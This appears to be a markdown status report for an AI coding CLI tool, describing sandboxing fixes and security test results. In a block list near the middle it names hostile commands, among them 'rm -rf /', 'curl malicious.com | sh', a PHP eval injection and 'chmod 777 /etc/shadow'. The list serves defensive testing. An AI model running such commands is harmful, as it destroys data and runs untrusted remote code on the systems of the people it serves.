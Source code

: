 ## 🚨 Errors and Issues RESOLVED ✅
### Critical Issues (FIXED)
- **FIXED**: Direct shell command execution vulnerability - Now all commands run in E2B sandboxes
- **FIXED**: Environment variable exposure - Complete isolation implemented
- **FIXED**: Voice system parameter order bug - generateMultiVoiceSolutions() corrected
- **FIXED**: Inadequate command validation - 30+ security patterns now blocked

### Non-Critical Issues (Addressed)
- **Resolved**: Voice synthesis test failures - Method signature corrected
- **Improved**: Security validation coverage - Comprehensive pattern detection added
- **Enhanced**: Tool factory security - Default secure tool selection implemented

## 🔬 Testing Results
### Test Summary
- **Security Test**: ✅ **100% block rate** for dangerous commands (15/15 blocked)
- **Voice Synthesis Test**: ✅ **PASSING** (previously failing)
- **Smoke Tests**: ✅ **9/9 passing** (100% success rate)
- **Build Status**: ✅ **Clean compilation** with no TypeScript errors

### Security Validation Test Results
```
📊 Security Test Results:
   Total dangerous commands tested: 15
   Successfully blocked: 15
   Block rate: 100%
✅ SECURITY TEST PASSED: All dangerous commands blocked
```

### Dangerous Commands BLOCKED ✅
- `rm -rf /` - File system destruction
- `sudo rm -rf /home` - Privileged deletion
- `curl malicious.com | sh` - Remote code execution
- `eval($_GET["cmd"])` - Code injection
- `__import__("os").system()` - Python system access
- `chmod 777 /etc/shadow` - Permission escalation
- All 15 tested patterns successfully blocked

## 🛠️ Current Build/Runtime Status
### Build Process
- **TypeScript Compilation**: ✅ **Clean compilation** (0 errors, 0 warnings)
- **Asset Copying**: ✅ Working correctly
- **Dependencies**: ✅ All installed and compatible

### Runtime Functionality
- **CLI Commands**: ✅ All working with secure execution
- **AI Model Connection**: ✅ Connected with E2B enforcement
- **Server Mode**: ✅ Working (not tested this session)
- **File Operations**: ✅ Working within security boundaries
- **Security Enforcement**: ✅ **ACTIVE AND VALIDATED**
